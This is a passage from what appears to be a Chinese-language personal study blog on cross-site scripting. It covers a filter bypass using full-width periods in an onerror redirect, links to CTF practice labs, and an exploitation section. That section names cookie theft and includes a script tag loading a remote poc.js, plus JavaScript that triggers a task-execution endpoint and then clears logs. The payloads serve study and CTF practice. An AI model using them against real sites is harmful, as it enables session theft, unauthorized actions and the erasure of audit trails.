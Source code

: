 6.使用中文逗号代替英文逗号  
如果你在你在域名中输入中文句号浏览器会自动转化成英文的逗号

```cpp
<img src="x" onerror="document.location=`http://www。baidu。com`">//会自动跳转到百度
```





# 练习

[[blog/安全/靶场/CTFshow_XSS_反射型\|CTFshow_XSS_反射型]]
[[blog/安全/靶场/CTFshow_XSS_存储型\|CTFshow_XSS_存储型]]
[[blog/安全/靶场/自建环境_xss-labs\|自建环境_xss-labs]]


# XSS平台





# 漏洞利用


## 凭据盗取

也就是获取信息，比如管理员cookie之类的




## 数据提交

**条件：熟悉后台业务功能数据包，利用JS写一个模拟提交**
**利用：凭据获取不到或有防护无法利用凭据进入时执行其他**

**这种利用就要求对网站构造有一定的熟悉**

这里xiaodi的例子是现在服务器中上传一个恶意的js文件，然后再插入一段XSS payload
```js
<script src="http://xx.xxx.xxx/poc.js"></script>
```
这里的 `src` 属性指定了要加载的外部脚本的URL，也就是这个payload会执行这个js代码

而js代码如下：
```js
function poc(){

  $.get('/service/app/tasks.php?type=task_list',{},function(data){

    var id=data.data[0].ID;

    $.post('/service/app/tasks.php?type=exec_task',{

      tid:id

    },function(res2){

        $.post('/service/app/log.php?type=clearlog',{

        },function(res3){},"json");

    },"json");

  },"json");

```